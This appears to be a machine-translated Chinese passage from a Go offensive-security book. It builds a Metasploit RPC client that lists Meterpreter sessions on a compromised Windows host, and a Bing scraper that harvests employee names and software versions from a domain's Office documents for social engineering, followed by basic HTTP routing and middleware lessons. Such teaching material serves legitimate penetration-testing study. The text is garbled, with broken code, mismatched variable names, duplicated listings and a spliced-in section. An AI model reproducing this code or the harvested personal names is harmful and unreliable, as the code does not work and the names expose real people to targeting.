Metasploit 是一个用于执行各种对抗技术的框架，包括侦察、利用、命令与控制、持久化、横向网络移动、载荷创建与交付、权限提升等。更棒，该产品的社区版本是免费的，可以在 Linux 和 macOS 上运行，并由活跃维护。对于任何对抗活动来说，Metasploit 是渗透测试人员使用的基础工具，它暴露了一个远程过程调用 (RPC) API 以允许与其功能进行远程交互。

在本节中，你将构建一个与远程 Metasploit 客户端交互的客户端。与你构建的 Shodan 代码类似，你开发的 Metasploit 客户端不会涵盖可用功能的完整实现。相反，它将成为你根据需要扩展附加功能的基础。我们认为你会发现实现比 Shodan 示例更复杂，使得 Metasploit 交互成为一个更具挑战性的进展。

## 设置你的环境

在继续本节之前，如果你还没有，请下载并安装 Metasploit 社区版。启动 Metasploit 控制台以及通过 Metasploit 中的 `msgrpc` 模块启动 RPC 监听器。然后设置服务器主机（RPC 服务器监听的 IP）和密码，如列表 3-12 所示。

```bash
$ msfconsole
msf > load msgrpc Pass=s3cr3 ServerHost=10.0.1.6
[*] MSGRPC Service: 10.0.1.6:55552
[*] MSGRPC Username: msf
[*] MSGRPC Password: s3cr3t
[*] Successfully loaded plugin: msgrpc
```

**列表 3-12：启动 Metasploit 和 msgrpc 服务器**

为了使代码更具移植性并避免硬编码值，请将以下环境变量设置为为 RPC 实例定义的值。这类似于你在第 58 页“创建客户端”中为交互 Shodan 使用的 Shodan API 密钥执行的操作。

```bash
$ export MSFHOST=10.0.1.6:55552
$ export MSFPASS=s3cr3t
```

你现在应该已经让 Metasploit 和 RPC 服务器运行起来了。

由于利用和 Metasploit 使用的细节超出了本书的范围，让我们假设通过狡猾和诡计，你已经攻了一个远程 Windows 系统，并利用了 Metasploit 进行后渗透活动。

你需要定义目标。为了简单起见，实现代码并发出一个获取当前 Meterpreter 会话列表的 RPC 调用。请求格式如下：

`[ "session.list", "token" ]`

这是最小化的；它期望接收方法名和一个令牌。令牌值是一个占位符。如果你阅读这些，你会发现这是一个身份验证令牌，在成功登录 RPC 服务器后颁发。

Metasploit 为 `session.list` 方法的响应遵循以下格式：

```json
{
  "1": {
    "type": "shell",
    "tunnel_local": "192.168.35.149:44444",
    "tunnel_peer": "192.168.35.149:43886",
    "via_exploit": "exploit/multi/handler",
    "via_payload": "payload/windows/shell/shell_reverse_tcp",
    "desc": "Command shell",
    "info": "",
    "workspace": "Project1",
    "target_host": "",
    "username": "root",
    "uuid": "hjaj9kw",
    "exploit_uuid": "gcrprpj2a",
    "routes": []
  }
}
```

此响应以映射的形式返回：键，会话详情是值。

让我们构建 Go 类型来处理请求和响应数据。列表 3-13 定义了 `sessionListReq` 和 `SessionListRes`。

```go
type sessionListReq struct {
```

```go
2 _msgpack struct(){`msgpack:",asArray"
	Method string
	Token string
}
```

```go
3 type SessionListRes struct {
	ID uint32 `msgpack:"
```

你通过请求类型 `sessionListReq`，以与 Metasploit RPC 服务器期望一致的方式将结构化数据序列化为 MessagePack 格式——具体包含一个方法名和标记值。注意，这些字段没有任何描述符。数据是以数组形式传递的，而不是映射，因此 RPC 接口并不是以键值对格式期望数据，而是期望数据作为值的位置数组。这就是为什么你省略了这些属性的注解——不需要定义键名。然而，默认情况下，结构体会被编码为映射，并从属性名称推导出键名。要禁用此设置并强制编码为位置数组，你需要添加一个名为 `_msgpack` 的特殊字段，它利用 `asArray` 描述符显式地指示编码器/解码器将数据视为数组。

`SessionList` 3 包含了响应字段与结构体属性之间的一一映射映射。在前一个示例响应中显示的数据本质上是一个嵌套映射。外层映射是从会话标识符到会话详情，而内部映射是作为键值对表示的会话详情。与请求不同，响应没有结构化位置数组，但每个结构体属性都使用描述符来显式地命名并将数据映射到 Metasploit 的表示。代码将会话标识符作为结构体的一个属性。然而，由于标识符的实际值是键值，其填充方式略有不同，因此你包含了 `emptytype` 描述符 4 使数据变为可选，这样它就不会影响编码或解码。这扁平了数据，使你不再需要处理嵌套映射。

## 获取有效标记

现在，你只剩下最后一件事要做了。你必须获取一个有效的标记值来用于该请求。为此，你需要对 `auth.login()` API 方法发出登录请求，它期望以下内容：

```json
["auth.login","username", "password"]
```

你需要将用户名和密码值替换为初始设置时在 Metasploit 中加载 `msfrpc` 模块时使用的值（回你想将它们设置为了环境变量）。假设验证成功，服务器将返回以下消息，其中包含一个你可以用于后续请求的身份标记。

```json
{ "result" => "success", "token" => "al1alal1alalalal1" }
```

验证失败将产生以下响应：

```json
{
  "error" => true,
  "error_class" => "Msf::RPC::Exception",
  "error_message" => "Invalid User ID or Password"
}
```

为了稳妥起见，让我们还创建一个通过注销来使标记失效的功能。该请求接收方法名、身份标记以及第三个可选参数，你会忽略第三个参数，因为它在本文场景中是不必要的：

```json
[auth.logout, "token", "logoutToken"]
```

成功的响应如下所示：

```json
{ "result" => "success" }
```

## 定义请求和响应方法

当你为 `session.list()` 方法的请求和响应构建了 Go 类型后，你需要对 `auth.login()` 和 `auth.logout()` 也执行相同的操作（参见列表 3-14）。推理原理与之前相同，使用描述符强制请求被序列化为数组，并让响应被视为映射：

```go
type loginReq struct {
  _msgpack struct{} `msgpack:",asArray""
  Method string
  Username string
  Password string
}
```

```go
type loginRes struct {
	Result       string `msgpack:"result"`
	Token        string `msgpack:"token"`
	Error        bool   `msgpack:"error"`
	ErrorClass   string `msgpack:"error_class"`
	ErrorMessage string `msgpack:"error_message"`
}
```

```go
type logoutReq struct {
	_msgpack struct {} `msgpack:"asArray"`
	Method string
	Token string
	LogoutToken string
}
```

```go
type logoutRes struct {
	Result string `msgpack:"result"`
}
```

**列表 3-14：登录和注销 Metasploit 类型定义 (`/ch-3/metasploit-minimal/rpc/msf.go`)**


值得注意的是，Go 动态地序列化登录响应，只填充呈现的字段，这意味着我们可以使用单个结构体格式表示成功和失败的登录。

## 创建配置结构体和 RPC 方法

在列表 3-15 中，你采用了定义的类型并实际使用它们，创建向 `Metasploit` 发出 `RPC` 命令的必要方法。与 `Shodan` 示例一样，你定义了一个任意类型来维护相关的配置和身份验证信息。这样，你就不需要显式且重复地传递主机、端口和身份标记等公共元素。相反，你将使用该类型并在其上构建方法，以便数据隐式可用。

```go
type Metasploit struct {
	host string
	user string
	pass string
	token string
}
```

```go
func New(host, user, pass string) *Metasploit {
	msf :=&Metasploit{
		host: host,
		user: user,
		pass: pass,
	}
	return msf
}
```

列表 3-15：定义 (`/ch-3/metasploit-minimal/rpc/msf.go`)

## 执行远程调用

现在你有一个结构体，并且为了方便起见，有一个名为 `New()` 的函数可以初始化一个新的结构体。你现在可以在 `Metasploit` 类型上构建方法以执行远程调用。为了防止代码重复，在列表 3-16 中，你通过构建一个处理序列化、反序列化的方法开始。`send()` 方法接收请求和响应参数，类型为 `interface{}`。使用此接口允许将任何结构体传递给方法，随后将请求发送服务器。接下来，使用 `msgpack` 库编码请求：通过 `NewEncoder()` 创建编码器然后调用 `Encode()` 方法。这为 `buf` 变量填充 `MessagePack` 编码的请求表示。编码完成后，使用数据构建目标 `URL` 并发出 `POST` 请求，内容类型设置为 `binary/message-pack` 并设置请求体。最后，你解码响应体。正如之前提到的，解码后的数据被写入传入方法的内存位置。数据的编码和解码无需显式知道请求或响应结构体类型，使得该方法灵活且可复用。

```go
func (msf *Metasploit) send(req interface{}, res interface{}) error {
	buf := new(bytes.Buffer)
	msgpack.NewEncoder(buf).Encode(req)
	dest := fmt.Sprintf("http://%s/api", msf.host)
	r, err := http.Post(dest, "binary/message-pack", buf)
	if err != nil {
		return err
	}
	defer r.Body.Close()
	if err := msgpack.NewDecoder(r.Body).Decode(res); err != nil {
		return err
	}
	return nil
}
```

列表 3-16：带有序列化和反序列化的通用 `send()` 方法 (`/ch-3/metasploit-minimal/rpc/msf.go`)

在列表 3-17 中，你可以看到逻辑的核心部分。

```go
func (msf *Metasploit) Login(①) error {
	ctx := &loginReq{
		Method: "auth.login",
		Username: msf.user,
		Password: msf.pass,
	}
	var loginRes
	if err := msf.send(ctx, &res)②; err != nil {
		return err
	}
	msf.token = loginRes.Token
	return nil
}

func (msf *Metasploit) Logout(③) error {
	ctx := &logoutReq{
		Method: "auth.logout",
		Token: msf.token,
		btnLogout: msf.token,
	}
	var logoutRes
	if err := msf.send(ctx, &res)④; err != nil {
		return err
	}
	msf.token = ""
	return nil
}
```

```go
func (msf *Metasploit) SessionList() (map[uint32]SessionList, error) {
	req := &SessionListReq{Method: "session.list", Token: msf.token}
	res := make(map[uint32]SessionList)
	if err := msf.send(req, &res); err != nil {
		return nil, err
	}

	for id, session := range res {
		session.ID = id
		res[id] = session
	}
	return res, nil
}
```

列表 3-17: `Metasploit` `API` 调用实现 (`/ch-3/metasploit-minimal/rpc/ms.go`)

你定义了三个方法：`Login()` ①、`Logout()` ③ 和 `SessionList()` ⑤。每个方法都使用相同的通用流程：创建并初始化一个请求结构体，创建响应结构体，并调用辅助函数 ④ ⑦ 来发送请求并接收解码后的响应。`Login` 和 `Logout` 方法操作的是 `token` 属性。方法逻辑之间唯一的显著差异出现在 `SessionList()` 方法中，在该方法中，你将响应定义为 `map[uint32]SessionList` ⑥，并遍历该响应以展平 map ⑧，在结构体上设置 `ID` 属性，而不是维护一个 map map。

记住，`session.list()` 函数需要一个有效的身份验证令牌，这意味着在调用 `SessionList()` 方法成功之前，你必须登录。列表 3-18 使用 `Metasploit` 接收器结构体来访问 `token`，该值并不是有效值——它是一个空字符串。由于你在这里开发的程序并不完整，你可以直接在 `SessionList()` 方法内部显式包含一个对 `Login()` 方法的调用，但对于每实现一个额外的身份验证方法，你都必须检查有效身份验证令牌的存在并显式地调用 `Login()`。这并不是良好的编码实践，因为你将花费大量时间重复逻辑，而这些逻辑你可以写在引导过程的一部分中。

你已经实现了一个函数 `New()`，它被设计用于引导，因此请修补该函数，看看将身份验证作为过程的一部分时，新的实现看起来是什么样的（参见列表 3-18）。

```go
func New(host, user, pass string) (*Metasploit, error) {
	msf := &Metasploit{
		host: host,
		user: user,
		pass: pass,
	}

	if err := msf.Login(); err != nil {
		return nil, err
	}

	return msf, nil
}
```

列表 3-18: 通过嵌入 `Metasploit` 登录初始化客户端 (`/ch-3/metasploit-minimal/rpc/msf.go`)

修补后的代码现在将错误作为返回值集合的一部分。这是为了警报可能的身份验证失败。此外，逻辑中还增加了对 `Login()` 方法的显式调用。只要使用此 `New()` 函数实例化 `Metasploit` 结构体，你的身份验证方法调用现在就可以访问有效的身份验证令牌了。

## 创建实用工具程序

在本示例的末尾，你的最后一项工作是创建一个实现你那闪亮新库的实用工具程序。将列表 3-19 中的代码输入 `client/main.go`，运行它，并见证奇迹发生。

```go
package main

import (
	"fmt"
	"log"

	"github.com/blackhat-go/bhg/ch-3/metasploit-minimal/rpc"
)

func main() {
	host := os.Getenv("MSHOST")
	pass := os.Getenv("MSFPASS")
	user := "msf"

	if host == "" || pass == "" {
		log.Fatal("缺少必需的环境变量 MSHOST 或 MSFPASS")
	}
	msf, err := rpc.New(host, user, pass)
	if err != nil {
		log.Panicln(err)
	}
	defer msf.Logout()

	sessions, err := msf.SessionList()
	if err != nil {
		log.Panicln(err)
	}
	fmt.Println("Sessions:")
	for _, session := range sessions {
		fmt.Printf("%5d %s\n", session.ID, session.Info)
	}
}
```

列表 3-19: 使用我们的 `msfrpc` 包 (`/ch-3/metasploit-minimal/client/main.go`)

首先，引导 `RPC` 客户端并初始化一个新的 `Metasploit` 结构体。记住，你刚刚更新了该函数以在初始化期间执行身份验证。接下来，通过通过延迟调用 `Logout()` 方法来确保进行清理工作。这将在 `main` 函数返回或退出时运行。然后你调用 `SessionList()` 方法并遍历响应以列出可用的 `Meterpreter` 会话。

代码虽然很多，但幸运的是，实现其他 `API` 调用的工作应该少得多，因为你只需要定义请求和响应类型，并构建发布远程调用的库方法。以下是直接从我们的客户端工具程序产生的示例输出，显示了一个已建立的 `Meterpreter` 会话：

```
$ go run main.go
Sessions:
 WIN-HOME\smith @ WIN-HOME
```

这样。你成功地创建了一个库和一个客户端工具程序，用于与远程 `Metasploit` 实例交互以检索可用的 `Meterpreter` 会话。接下来，你进入元数据领域。

## 通过爬取解析元数据

正如我们在本章中强调的，`ZIP` 文件在解压时包含元数据。`core.xml` 文件也包含这些信息。它的结构如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<cp:coreProperties
xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata"
  xmlns:dc="http://www.purl.org/dc/elements/1.1/"
  xmlns:dcterms="http://www.purl.org/dc/terms"
  xmlns:dccmity="http://www.purl.org/dc/dccmity"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <dc:creator>Dan Kottmann</dc:creator>
  <cp:lastModifiedBy>Dan Kottmann</cp:lastModifiedBy>
  <dcterms:created></dcterms:created>
  <dcterms:modified xsi:type="dcterms:W3TF">2016-12-06T18:24:42Z</dcterms:modified>
  <dcterms:modified xsi:type="dcterms:W3TF">2016-12-06T18:25:32Z</dcterms:modified>
</cp:coreProperties>
```

`creator` 和 `lastModifiedBy` 元素是主要关注点。这些字段包含了你可以用于社会工程或密码破解攻击的员工姓名或用户名。

```xml
<lspstr>Worksheets</lspstr>
<variant>
<i4>1</i4>
<variant>
<vector>
</HeadingPairs>
<TitlesOfParts>
<vector size="1" baseType="lspstr">
<lspstr>Sheet1</lspstr>
</vector>
</TitlesOfParts>
<Company>ACME</Company>
<LinksToDate>false</LinksToDate>
<SharedDoc>false</SharedDoc>
<HyperlinksChanged>false</HyperlinksChanged>
<AppVersion>15.0300</AppVersion>⬡
</Properties>
```

你主要感兴趣的是其中的几个元素：`Application` ①、`Company` ② 和 `AppVersion` 独自。版本本身并没有明显地与 `Office` 版本名称（例如 `Office 2013`、`Office 2016` 等）相关，但该字段与更易读、通用的替代方案之间存在逻辑映射。你开发的代码将维护这种映射关系。

## 定义 metadata 包

在列表 3-20 中，在一个名为 `metadata` 的新包中定义与这些 `XML` 数据集对应的 `Go` 类型，并将代码放在名为 `openxml.go` 的文件中——每个你想要解析的 `XML` 文件对应一个。然后添加一个数据映射和一个方便函数，用于确定与 `AppVersion` 对应的可识别的 `Office` 版本。

```go

type OfficeCoreProperty struct {

  XMLName        string `xml:"coreProperties"`

  Creator        string `xml:"creator"`

  LastModifiedBy string `xml:"lastModified"`

}
```

```go

type OfficeAppProperty struct {

  XMLName     string `xml:"Properties"`

  Application string `xml:"Application"`

  Company     string `xml:"Company"`

  Version     string `xml:"AppVersion"`

}
```

```go

var OfficeVersions = map[string]string{

  "16": "2016",

  "15": "2013",

  "14": "2010",

  "12": "2007",

  "11": "2003",

}
```

```go

func (a *OfficeAppProperty) GetMajorVersion() string {

  tokens := strings.Split(a.Version, ",")

  if len(tokens) < 2 {

    return "Unknown"

  }

  v, ok := OfficeVersions[tokens[0]]

  if !ok {

    return "Unknown"

  }

  return v

}
```

列表 3-20: `Open XML` 类型定义和版本映射 (`/ch-3/binding-metadata/metadata/openxml.go`)

在定义了 `OfficeCoreProperty` 和 `OfficeAppProperty` 类型后，定义一个映射 `OfficeVersions`，用于维护主版本号与可识别发布年份之间的关系 ①。要使用此映射，在 `OfficeAppProperty` 类型上定义一个方法 `GetMajorVersion()` ②。该方法拆分 `XML` 数据的 `AppVersion` 值以获取主版本号 ③，随后使用该值和 `OfficeVersions` 映射来获取发布年份 ④。

## 将数据映射到结构体

现在你已经构建了用于处理和检查感兴趣的 `XML` 数据的逻辑和类型，你可以创建读取相应文件并将内容分配给你的结构体的代码。为此，如列表 3-21 所示，定义 `NewProperties()` 和 `process()` 函数。

```go

func NewProperties(*zip.Reader) (*OfficeCoreProperty, *OfficeAppProperty, error) {

  var coreProps OfficeCoreProperty

  var appProps OfficeAppProperty

  for _, f := range r.File {

    switch f.Name {

    case "docProps/core.xml":

      if err := process(f, &coreProps); err != nil {

        return nil, err

      }

    case "docProps/app.xml":

      if err := process(f, &appProps); err != nil {

        return nil, err

      }

    default:

      continue

    }

  }

  return &coreProps, &appProps, nil

}
```

```go

func process(f *zip.File, prop interface{}) error {

  rc, err := f.Open()

  if err != nil {

    return err

  }

  defer rc.Close()
```


```go
if err := xml.NewDecoder(rc).Decode(&prop); err != nil {
    return err
}

return nil
}
```

列表 3-21: 处理 Open XML 存档和嵌入 XML 文档 (`/ch-3/binding-metadata/metadata/openxml.go`)

`NewProperties()` 函数接受一个 `*zip.Reader`，它代表 ZIP 存档的 `io.Reader` ①。使用 `zip.Reader` 实例遍历存档中的所有文件 ②，检查文件名 ③。如果文件名与两个属性文件名之一匹配，则调用 `process()` 函数 ④ ⑤，传入文件以及你想填充的任意结构类型——可以是 `CoreProperty` 或 `OfficeProperty`。

`process()` 函数接受一个 `*zip.File` 和一个 `interface{}` ⑥。它打开文件，将 XML 内容解码到提供的结构体中，并返回遇到的任何错误。

## 使用 Bing 搜索并接收文件

现在你已经构建了用于处理和检查感兴趣的 XML 数据的逻辑和类型，你可以创建读取相应文件并将内容分配给你的结构体的代码。为此，如列表 3-21 所示，定义 `NewProperties()` 和 `process()` 函数。

```go
}

fmt.Printf("%d: %s\n", i, url)

res, err := http.Get(url)

if err != nil {
    return
}

buf, err := ioutil.ReadAll(res.Body)

if err != nil {
    return
}

defer res.Body.Close()

r, err := zip.NewReader(bytes.NewReader(buf), int64(len(buf)))

if err != nil {
    return
}

cp, err := metadata.NewProperties(r)

if err != nil {
    return
}

log.Printf("%25s %25s - %s %s\n",
cp.Creator,
cp.LastModifiedBy,
ap.Application,
ap.GetMajorVersion())

}

func main() {
    if len(os.Args) != 3 {
        log.Fatal("Missing argument. Usage: main.go domain ext")
    }

    domain := os.Args[1]
    tiletype := os.Args[2]

    q := fmt.Sprintf(
        "site:%s & filetype:%s & inset:(url title):%s",
        domain,
        filetype,
        filetype)

    search := fmt.Sprint("http://www.bing.com/search?q=%s",
    url.QueryEscape(q))

    doc, err := goquery.NewDocument(search)

    if err != nil {
        log.Panic(err)
    }
}
```

```go
s := "html body div#b_content ol#b_results li.b_algo div.b_title h2"

doc.Find(s).Each(handler)

}
```

列表 3-22: 抓取 Bing 结果并解析文档元数据 (`/ch-3/bing-metadata/client/main.go`)

创建两个函数。第一个函数 `handler()` 接收一个 `goquery.Selection` ①在此在此，它将被填充一个锚点 HTML 元素），并找到并提取属性 ② 的直接链接。该属性包含指向从 Bing 搜索返回的文档链接。使用该 URL，代码随后发起一个 GET 请求以检索文档 ③。假设没有发生错误，你将读取响应体 ④，利用它创建一个 `zip.Reader` ⑤。回想你之前在元数据包中创建的函数 `NewProperties()` 期望一个 `zip.Reader`。现在你已经有了适当的数据类型，将它传递给该函数 ⑥，属性将从文件中填充并打印到你的屏幕上。

`main()` 函数引导并控制整个过程；你将域名和文件类型作为命令行参数传递给它。该函数随后使用这些输入数据构建带有适当过滤器的 Bing 查询 ⑦。过滤器字符串被编码并用于构建完整的 Bing 搜索 URL 8。搜索请求使用 `goquery.NewDocument()` 函数发送，该函数隐式地发出一个 HTTP GET 请求并返回一个 `goquery` 友好的 HTML 响应表示 9。该文档可以使用 `goquery` 进行检查。最后，使用你通过浏览器开发者工具识别的 HTML 选择器字符串来查找并遍历匹配的 HTML 元素 10。对于每个匹配的元素，都会调用你的 `handler()` 函数。

代码的示例运行产生类似下面的输出：

```
$ go run main.go nytimes.com docx

0:
http://graphics8.nytimes.com/packages/pdf/2012NAIHSAnnualHIVReport041713.docx

| 2020-12-21 11:53:50 Jonathan V. Iralu Dan Fros - Microsoft Macintosh Word 2010 |
| 1: http://www.nytimes.com/packages/pdf/business/Announcement.docx |
| 2020-12-21 11:53:51 agouser agouser - Microsoft Office Outlook 2007 |
| 2: http://www.nytimes.com/packages/pdf/business/DOCXIndictment.docx |
| 2020-12-21 11:53:51 AGO Gonder, Nanci - Microsoft Office Word 2007 |
| 3: http://www.nytimes.com/packages/pdf/business/BrownIndictment.docx |
| 2020-12-21 11:53:51 AGO Gonder, Nanci - Microsoft Office Word 2007 |
| 4: http://graphics8.nytimes.com/packages/pdf/health/Introduction.docx |
| 2020-12-21 11:53:51 Oberg, Amanda M Karen Barrow - Microsoft Macintosh Word 2010 |
```

你现在可以针对特定域名，搜索并提取所有 Open XML 文件的文档元数据。我鼓励你扩展此示例，以包含处理多页 Bing 搜索结果的逻辑，包含 Open XML 之外的其他文件类型，并增强代码以并发下载已识别的文件。

## 总结

本章介绍了 Go 中基础的 HTTP 概念，你使用了 `Mux` 来创建服务器。在下一章中，你将学习

## 服务器、路由和中间件

中间件是一个封装 HTTP 处理器并在执行处理器之前或之后执行某些操作的函数。常见用途包括日志、身份验证和请求压缩。

## HTTP 基础

在 Go 中创建服务器的最简单方法是使用 `net/http` 包。以下示例显示了如何使用 `http` 监听端口。

```go
package main

import (
    "fmt"
    "net/http"
)

func hello(w http.ResponseWriter, r *http.Request) {
    fmt.Fprint(w, "Hello, World!")
}

func main() {
    http.ListenAndServe(":8000", nil)
}
```

列表 4-1: Hello 服务器 `main.go`

## 路由

随着应用程序的增长，你需要处理许多路径。这就是路由大显用场的地方。`net/http` 包提供了使用 `ServeMux` 路由请求的方法。

```go
package main

import (
    "fmt"
    "net/http"
)

func indexHandler(w http.ResponseWriter, r *http.Request) {
    fmt.Fprintf(w, "Welcome to the homepage!")
}

func aboutHandler(w http.ResponseWriter, r *http.Request) {
    fmt.Fprintf(w, "This is the about page.")
}

func main() {
    mux := http.NewMux()
    mux.HandleFunc("/", indexHandler)
    mux.HandleFunc("/about", aboutHandler)
    http.ListenAndServe(":8080", mux)
}
```

列表 4-2: 简单的路由器 `main.go`

上面的示例展示了如何创建一个 `ServeMux` 并为不同的路径注册不同的处理器。`HandleFunc` 方法用于为特定模式注册处理器。模式可以是字面量，也可以包含通配符。

## 中间件

中间件是一个封装 HTTP 处理器并在处理器执行之前或之后执行某些操作的函数。常见用途包括日志记录、身份验证和请求压缩。

```go
package main

import (
    "fmt"
    "net/http"
    "time"
)

func loggingMiddleware(next http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        start := time.Now()
        next.ServeHTTP(w, r)
        fmt.Printf("%s %s in %v\n", r.Method, r.URL.Path, time.Since(start))
    })
}

func handler(w http.ResponseWriter, r *http.Request) {
    fmt.Fprint(w, "Hello, World!")
}

func main() {
    mux := http.NewServeMux()
    mux.HandleFunc("/", handler)
    wrappedMux := loggingMiddleware(mux)
    http.ListenAndServe(":8080", wrappedMux)
}
```

列表 4-3: 带日志的中间件 `main.go`

在此示例中，`loggingMiddleware` 函数封装了 `ServeMux`。进入服务器的每个请求都会记录其方法、路径和处理所需的时间。这是向你的应用程序添加跨切关注点的强大方法。

```go
package main

import (
    "fmt"
    "net/http"
)

type router struct {
}

func (r *router) ServeHTTP(w http.ResponseWriter, req *http.Request) {
    switch req.URL.Path {
    case "/a":
        fmt.Fprint(w, "Executing /a")
    case "/b":
        fmt.Fprint(w, "Executing /b")
    case "/c":
        fmt.Fprint(w, "Executing /c")
    default:
        http.Error(w, "404 Not Found", 404)
    }
}

func main() {
    var r router
    http.ListenAndServe(":8000", &r)
}
```

列表 4-2：一个简单的路由器 (`/ch-4/simple_router/main.go`)

首先，你定义了一个名为 `router` 的新类型，且没有任何字段。你需要实现 `http.Handler` 接口。为了实现这一点，你必须定义 `ServeHTTP` 方法。该方法对请求的 URL 路径使用 `switch` 语句，根据路径执行不同的逻辑。它使用默认的 404 Not Found 响应操作。在 `main()` 函数中，你创建了一个新路由器并将其相应的指针传递给 `http.ListenAndServe()`。

让我们在旧终端里运行一下试试：

```
$ curl http://localhost:8000/a
Executing /a
$ curl http://localhost:8000/d
404 Not Found
```

一切运行都符合预期；对于包含 `/a` 路径的 URL，程序返回 `Executing /a` 消息，对于不存在的路径，它返回 404 响应。这是一个非常简单的示例。你之后将使用的第三方路由器将具有复杂复杂的逻辑，但这可以给你关于它们如何工作的基本示例。

## 构建简单的中间件

现在我们来构建中间件，它是一种包装器，无论目标函数是什么，它都会在所有进入请求上执行。在列表 4-3 的示例中，你将创建一个显示请求处理开始和结束时间的日志器。

```go
package main

import (
    "fmt"
    "log"
    "net/http"
    "time"
)

type logger struct {
    Inner http.Handler
}

func (l *logger) ServeHTTP(w http.ResponseWriter, r *http.Request) {
    log.Println("start")
    l.Inner.ServeHTTP(w, r)
    log.Println("finish")
}

func hello(w http.ResponseWriter, r *http.Request) {
    fmt.Fprintf(w, "Hello\n")
}

func main() {
    f := http.HandlerFunc(hello)
    l := logger{Inner: f}
    http.ListenAndServe(":8000", &l)
}
```

列表 4-3：简单的中间件 `/ch-4/simple-middleware/main.go`

我们本质上是在创建一个外部处理程序，它在每次请求时都会在服务器上记录一些信息，并调用你的 `hello()` 函数。你将此日志逻辑封装在你的函数周围。

与路由示例一样，你定义了一个名为 `logger` 的新类型，但这次你有一个字段 `Inner`，它本身也是一个 `http.Handler`。在你的 `ServeHTTP` 定义中，你使用 `log()` 来打印请求的开始和结束时间，并在中间调用内部处理器的 `ServeHTTP` 方法。对于客户端来说，请求将在内部处理器中完成。在 `main()` 中，你使用 `http.HandlerFunc` 将一个函数转换为 `http.Handler`。你创建了 `logger`，并将 `Inner` 设置为你新创建的实例。最后，你通过使用 `logger` 实例的指针来启动服务器。

运行此程序并发送请求会输出两个包含请求开始和结束时间的消息：

```
$ go build -o simple_middleware
$ ./simple_middleware
2020-01-16 06:23:14 start
2020-01-16 06:23:14 finish
```

在接下来的章节中，我们将深入研究中间件和路由，并使用一些我们喜欢的第三方包，这些包允许你创建更动态的路由并在链中执行中间件。我们还将讨论中间件的一些更复杂场景的用例。

## 使用 gorilla/mux 包进行路由

如列表 4-2 所示，你可以使用路由将请求的路径匹配到函数。但你也可以用它来匹配其他属性——例如 HTTP 动词或主机标头——到函数。Go 生态系统中有很多第三方路由器可用。我们将向你介绍其中一个：`gorilla/mux` 包。但与所有事情一样，我们鼓励你在遇到额外的包时通过研究来扩展你的知识。

`gorilla/mux` 包是一个成熟的第三方路由包，允许你根据简单和复杂的模式进行路由。它包含了正则表达式、参数匹配、动词匹配和子路由等功能。

让我们过一下你可能如何使用路由器的几个示例。不需要运行它们，因为你很快就会在实际程序中使用它们，但请尽管尝试和实验。

在使用 `gorilla/mux` 之前，你必须获取它：

```
$ go get github.com/gorilla/mux
```

现在你可以开始路由了。创建一个新路由器：

```go
r := mux.NewRouter()
```

现在你可以将特定路径匹配到处理程序：

```go
r.HandleFunc("/hello", func(w http.ResponseWriter, r *http.Request) {
    fmt.Fprint(w, "Hello, world!")
})
```

你还可以在路径中使用变量：

```go
r.HandleFunc("/users/{name}", func(w http.ResponseWriter, r *http.Request) {
    vars := mux.Vars(r)
```


```go
fmt.Fprintf(w, "Hello, %s!", vars["name"])

})
```

你甚至可以使用正则表达式来限制变量：

```go
r.HandleFunc("/articles/{id:[0-9]+}", func(w http.ResponseWriter, r *http.Request) {

    vars := mux.Vars(r)

    fmt.Fprintf(w, "Article ID: %s", vars["id"])

})
```

最后，你可以根据 HTTP 方法进行匹配：

```go
r.HandleFunc("/post", func(w http.ResponseWriter, r *http.Request) {

    fmt.Fprint(w, "Post data")

}).Methods("POST")
```

现在，用你的路由器启动服务器：

```go
http.ListenAndServe(":8080", r)
```

虽然从技术上你可以使用 `negroni` 处理所有的应用程序逻辑，但这样做远非理想，因为它是专为作为中间件设计的，并且不包含路由器。相反，最好的方法是将 `negroni` 与另一个包（例如 `gorilla/mux` 或 `net/http`）结合使用。让我们使用 `negroni/mux` 构建一个程序，这个程序将让你熟悉 `negroni`，并让你能够可视化操作在遍历中间件链时的执行顺序。

在目录命名空间内创建一个名为 `main.go` 的新文件，例如 `github.com/blackhat-go/bhg/ch-4/negroni_example/`。（如果你克隆了 BHG Github 仓库，该命名空间已经创建）。现在修改你的 `main.go` 文件以包含以下代码。

```go
package main

import (

    "net/http"

    "github.com/gorilla/mux"

    "github.com/urfave/negroni"

)

func main() {

	r := mux.NewRouter()

	n := negroni.Classic()

	n.UseHandler(r)

http.ListenAndServe(":8000", n)

}
```

列表 4-4：Negroni (`/ch-4/negroni_example/main.go`)

首先，你像在本章之前做的那样通过调用 `mux.NewRouter()` 创建了一个路由器 ①。接下来是让你与 `negroni` 包的首次交互：你调用了 `negroni.Classic()` ②。这创建了一个指向 Negroni 实例的新指针。

实现此操作有多种方法。你可以使用 `negroni.Classic()`，也可以调用 `negroni.New()`。前者 `negroni.Classic()` 设置了默认中间件，包括请求日志记录器、能够拦截并从 panic 中恢复的恢复中间件，以及一个从同目录的 `public` 文件夹提供文件的中间件。`negroni.New()` 函数不会创建默认中间件。

`negroni` 包中提供了各种类型的中间件。例如，你可以通过以下操作使用 `recovery`（恢复）包：

```go
n.Use(negroni.NewRecovery())
```

接下来，通过调用 `n.UseHandler(r)` ③ 将你的路由器添加到中间件栈中。在你继续规划和构建中间件时，考虑执行的顺序。例如，你希望身份验证检查中间件在需要身份验证的处理器函数之前运行。挂载在路由器之前的任何中间件都将在你的处理器函数之前执行；挂载在路由器之后的任何中间件将在你的处理器函数之后执行。顺序至关重要。在这种情况下，你还没有定义任何自定义中间件，但你很快就会定义。

继续构建你在列表 4–4 中创建的服务器，然后运行它。然后向服务器 `http://localhost:8000` 发送网络请求。你应该看到 `negroni` 日志中间件将信息打印到标准输出，如下所示：

```
$ build -s negroni_example
```

```
$ ./negroni_example

[negroni] 2020-01-19T11:49:33-07:00 | 404 | 1.002ms | localhost:8000 | GET
```

拥有默认中间件固然很好，但真正的力量来自于你创建自己的中间件时。通过 `negroni`，你可以使用几种方法向栈中添加中间件。看看以下代码。它创建了一个简单的中间件，打印消息并将执行权传递给链中的下一个中间件：

```go
type trivial struct {

}

func (t *trivial) ServeHTTP(w http.ResponseWriter, r *http.Request, next http.HandlerFunc) ①

	fmt.Println("Executing trivial middleware")

	next(w, r)

}
```

